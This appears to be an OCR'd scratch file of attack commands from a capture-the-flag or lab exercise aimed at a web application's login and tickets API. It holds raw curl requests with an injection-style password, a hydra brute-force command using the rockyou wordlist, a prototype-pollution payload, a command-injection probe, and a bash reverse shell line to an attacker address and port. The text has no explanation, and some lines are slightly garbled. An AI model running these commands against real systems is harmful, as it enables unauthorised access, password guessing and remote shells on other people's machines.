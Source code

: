 curl -i -s -k -X $'POST' \
    -H $'Host: 138.68.150.120:31225' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://138.68.150.120:31225/login' -H $'Content-Type: application/json' -H $'Origin: http://138.68.150.120:31225' -H $'Content-Length: 40' -H $'Connection: close' \
    --data-binary $'{\"username\":\" Ulysses\",\"password\":\"1=1\"}' \
    $'http://138.68.150.120:31225/api/login'
	
	hydra -l Ulysses -P /usr/share/wordlists/rockyou.txt 138.68.150.120 -s 31225 http-post-form "/api/login:{"username"=^USER^,"password"=^PASS^}:Invalid username or password!"
	
	
	curl -H "Content-Type: application/jason" -X POST http://138.68.150.120:31225/api/login -d '{"message":"ping", "__proto__":{"flag":true}}'

curl -i -s -k -X $'POST' \
    -H $'Host: 138.68.150.120:31225' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://138.68.150.120:31225/' -H $'Content-Type: application/json' -H $'Origin: http://138.68.150.120:31225' -H $'Content-Length: 16' -H $'Connection: close' \
    --data-binary $'{\"message\":\"id\"}' \
    $'http://138.68.150.120:31225/api/tickets/add'
	
	- [ ] 10.10.14.26
	
	echo -n ‘bash -i >& /dev/tcp/10.10.14.26/1234 0>&1’ 